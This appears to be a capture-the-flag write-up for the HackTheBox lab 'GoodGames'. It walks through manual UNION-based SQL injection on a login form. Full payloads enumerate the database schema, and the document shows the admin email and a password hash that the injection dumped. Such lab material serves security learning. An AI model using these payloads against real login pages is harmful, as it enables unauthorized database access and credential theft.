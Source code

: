 **A tutorial for manually exploiting sqli in the sign in page without sqlmap but with burpsuite**

![image](https://user-images.githubusercontent.com/87831546/142857492-a15dd841-8ef9-47b4-b074-ff0827e1c11d.png)

1) Confirm sql injection ('# comments out any query after it, or you can use -- -):
```
email=a@a.com'#&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142857635-483e64f9-b383-48e3-a81a-ae49017f7460.png)

2) Find number of columns with ORDER BY, increasing the order of numbers until we get an error
```
email=a@a.com' order by 4-- -&password=esdfs
```
order by 4 works, but order by 5 gives us an error telling us that there are 4 columns
![image](https://user-images.githubusercontent.com/87831546/142857961-b7333efa-0fae-47b9-b8fe-cbe2a87aa4d5.png)
![image](https://user-images.githubusercontent.com/87831546/142858071-7ec1ede4-8bae-4831-aef8-bada640b2bd2.png)

3) Find columns with useful data type to see if we can see the outcome of queries. We find that only the last column displays output to use
```
email=a@.com' UNION SELECT NULL,NULL,NULL,'test'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858377-8c3d41cc-6858-42b1-8b05-706eb6dfa9e5.png)

4) Find databse names - gives us an interesting table name called 'user'
```
email=a@a.com' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables -- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858532-ceff2ce1-5b8b-47dc-97e4-5eba5ef5e9a5.png)

5) Find columns for the user data (id, email, password, name)
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='user'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858926-da72f95e-3649-49e9-8ad8-c8b304877291.png)


6) Find that an admin user exists
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,name FROM user-- -&password=esdfs
```
(returns two users, admin and a. a is a user i registered on the site)
![image](https://user-images.githubusercontent.com/87831546/142859633-5bfb8a1e-ed6c-44b0-9ca3-90b23986dad3.png)

7) Dump the email and password from the admin user
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,email FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859858-88a6fcae-13dc-4b35-bf97-134547a10047.png)

```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,password FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859540-67379753-b541-47ce-a866-2e2b1f81f0ce.png)

And we get the same data that sqlmap gave us!
```
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

One thing to note is that all results seem to strangely precede with an 'a', just miss this out of all results
